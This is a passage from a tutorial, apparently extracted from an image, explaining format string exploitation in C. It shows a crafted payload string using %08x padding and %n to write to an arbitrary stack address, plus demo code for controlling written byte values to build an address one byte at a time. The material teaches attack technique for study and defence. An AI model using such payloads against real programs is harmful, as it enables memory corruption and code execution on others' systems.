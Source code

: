 ```
"\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"
```

The format string above will overwrite four bytes at `0xbfffc8c0` with a small integer number. We have reached one of our goals: we can write to arbitrary addresses. But we cannot control the number we are writing yet — but this will change.

The number we are writing — the count of characters written by the format function — is dependant on the format string. Since we control the format string, we can at least take influence on this counter, by writing more or less bytes:

```c
int a;
printf ("%10u%n", 7350, &a);
/* a == 10 */
int a;
printf ("%150u%n", 7350, &a);
/* a == 150 */
```

By using a dummy parameter `"%nu"` we are able to control the counter written by `"%n"`, at least a bit. But for writing large numbers - such as addresses — this is not sufficient, so we have to find a way to write arbitrary data.

An integer number on the x86 architecture is stored in four bytes, which are little-endian ordered, the least significant byte being the first in memory. So a number like `0x0000014c` is stored in memory as: `"\x4c\x01\x00\x00"`.

For the counter in the format function we can control the least significant byte, the first byte stored in memory by using dummy `"%nu"` parameters to modify it. Example:

```c
unsigned char foo[4];
printf ("%64u%n", 7350, (int *) foo);
```

When the printf function returns, `foo[0]` contains `"\x40"`, which is equal to `64`, the number we used to increase the counter.

But for an address, there are four bytes that we have to control completely. If we are unable to write four bytes at once, we can try to write a byte a time for four times in a row. On most CISC architectures it is possible to write to unaligned arbitrary addresses. This can be used to write to the second least significant byte of the memory, where the address is stored. This would look as follows:

```c
unsigned char canary[5];
unsigned char foo[4];
memset (foo, 0, sizeof (foo));
/* 0 * before */ strcpy (canary, "AAAA");
/* 1 */ printf ("%16u%n", 7350, (int *) &foo[0]);
/* 2 */ printf ("%32u%n", 7350, (int *) &foo[1]);
/* 3 */ printf ("%64u%n", 7350, (int *) &foo[2]);
/* 4 */ printf ("%128u%n", 7350, (int *) &foo[3]);
/* 5 * after */ printf ("%02x%02x%02x%02x\n", foo[0], foo[1],
foo[2], foo[3]);
printf ("canary: %02x%02x%02x%02x\n", canary[0],
canary[1], canary[2], canary[3]);
```
